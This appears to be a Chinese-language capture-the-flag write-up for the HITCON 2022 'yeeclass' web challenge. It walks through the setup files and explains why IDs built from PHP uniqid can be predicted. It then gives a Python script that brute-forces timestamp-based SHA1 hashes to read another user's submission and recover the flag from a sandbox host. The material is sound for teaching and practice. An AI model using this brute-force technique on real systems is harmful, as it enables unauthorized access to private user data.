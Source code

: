 ::: info
2022-HitCon-Web-yeeclass
:::

## 1、思路

本地部署：`sudo docker-compose build`，`sudo docker-compose up`

（1）`init.sql` 创建表：homework、user、submission

（2）`docker-compose.yml` 创建容器

```yml
  web:
    build:
      context: ./
      # args:
        # TURNSTILE_SECRETKEY: <your-own-key>
        # TURNSTILE_SITEKEY: <your-own-key>
    environment:
      - FLAG=hitcon{not_flag}
    ports:
      - 16875:80/tcp
    depends_on:
      database:
        condition: service_healthy
    entrypoint:
      - bash
      - -c
      - |
        set -e
        echo 'running init.php'
        php -f /tmp/init.php
        rm /tmp/init.php
        
        echo 'initialization done, starting apache'
        exec apache2-foreground
```

（3）`init.php` 创建用户 flagholder，密码随机，并提交了一份包含 flag 的作业，其哈希值为变量 id 的 sha1， `$id = uniqid($username."_");`

```php
<?php 

$pdo = new PDO("mysql:host=database;dbname=yeeclass", "yeeclass", "yeeclass");

$username = "flagholder";
$password = base64_encode(random_bytes(40));

echo "Username: $username; Password: $password\n";

// create user
$user_query = $pdo->prepare("INSERT INTO user (username, `password`, class) VALUES (?, ?, ?)");
$user_query->execute(array($username, hash("md5", $password), 0));

// submit flag
$id = uniqid($username."_");
echo $id."\n";

$submit_query = $pdo->prepare("INSERT INTO submission (`hash`, userid, homeworkid, score, content) VALUES (?, ?, ?, ?, ?)");
$submit_query->execute(array(
    hash("sha1", $id),
    $pdo->lastInsertId(),
    1,
    100,
    $_ENV["FLAG"]
));

?>
```

（4）本地部署的容器输出用户名和随机创建的密码（非服务端），网页端登陆查看提交的 flag 为 hitcon{not_flag} http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?hash=6d2fca6a74e7e8c6abf1e6f8bf8c8ecc20015f69

```
yeeclass-web-1       | running init.php
yeeclass-web-1       | Username: flagholder; Password: dsapiA9cJ/ti0mb/nwrDl7jChTdfoznUyVdTZT95MYIEBxjpLaYf4Q==
yeeclass-web-1       | flagholder_65dca4328cdd1
yeeclass-web-1       | initialization done, starting apache
```

（5）`submission.php` 支持

- 哈希查询，即可以在不登陆用户情况下通过访问 http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?hash= + 哈希值的方式获取提交的文件
- homeworkid 查询 http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?homeworkid= + homework
- userid 查询

```php
if (isset($_GET["hash"]) && $_GET["hash"] != "") {
    // view single submission
    $mode = "view";
    $submission_query = $pdo->prepare("SELECT s.*, u.username, h.name from submission s LEFT JOIN user u ON u.id=s.userid LEFT JOIN homework h ON h.id=s.homeworkid WHERE s.`hash`=?");
    $submission_query->execute(array($_GET["hash"]));
    $result = $submission_query->fetch(PDO::FETCH_ASSOC);

    if (!$result) {
        http_response_code(404);
        die("Submission not found.");
    }
} else {
    // list submissions
    if (isset($_GET["homeworkid"])) {
      ……
    } else if (isset($_SESSION["userid"])) {
      ……
    } else {
        http_response_code(400);
        die("Insufficient parameters");
    }   
}
```

## 2、获取哈希值

哈希值为

```php
$id = uniqid($username."_");
hash("sha1", $id)
```

### uniqid

https://www.php.net/manual/zh/function.uniqid.php

uniqid 的生成方式是 `{sec:08x}{usec:05x}`，13 位 16 进制数

带上前缀：

```php
<?php
    $username = "test";
    echo uniqid($username."_");
		// test_65dd46ee5dc2a
?>
```

### 入库时间

通过 homework 查询 http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?homeworkid=1 得到 2024-02-27 10:51:12.808250

### 爆破时间差

入库时间和 `uniqid` 由于运行效率，会存在微秒时间差，因而需要爆破该时间差

## 3、exp

```python
import hashlib
import requests
from datetime import datetime


username = "flagholder"

# timestamp => sec, usec
timestamp = "2024-02-27 10:51:12.808250"
dt = datetime.fromisoformat(timestamp)
sec = int(dt.timestamp())
usec = dt.microsecond


# hash(id)
def get_hash(usec):
    id = f"{username}_{sec:08x}{usec:05x}"
    return hashlib.sha1(id.encode()).hexdigest() 


# 爆破时间差
url = "http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?hash="
for i in range(0, 1000):
    hash = get_hash(usec-i)
    r = requests.get(url + hash)
    if r.status_code != 404:
        print(r.text)
```

获得 flag

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>yeeclass | Submission</title>
    <link rel="stylesheet" href="static/style.css">
</head>
<body>
    <div id="main">
        <header id="header">
            <h1>yeeclass</h1>
            <nav>
    <a href="index.php">[Home]</a>    <div class="right">
            <form action="index.php" method="POST">
            <input type="text" name="username" id="username" placeholder="Username" pattern="^\w{6,20}$" autocomplete="off">
            <input type="password" name="password" id="password" placeholder="Password" autocomplete="off">
            <input type="submit" value="Login/Register">
        </form>
        </div>
</nav>        </header>
        <hr>
                <section id="view">
            <h3>flagholder_Flag <a href="submit.php?homeworkid=1&delete=e23b7340a6cfd1939d4be49af0027620f917f712">[Delete]</a></h3>
            <p>Time: 2024-02-27 10:51:12.808250</p>
            <p>Score: 100</p>
            <pre>ctfhub{b52b822e45e613f4dcbf5f50}</pre>
        </section>
            </div>
</body>
</html>
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>openresty/1.21.4.2</center>
</body>
</html>
```

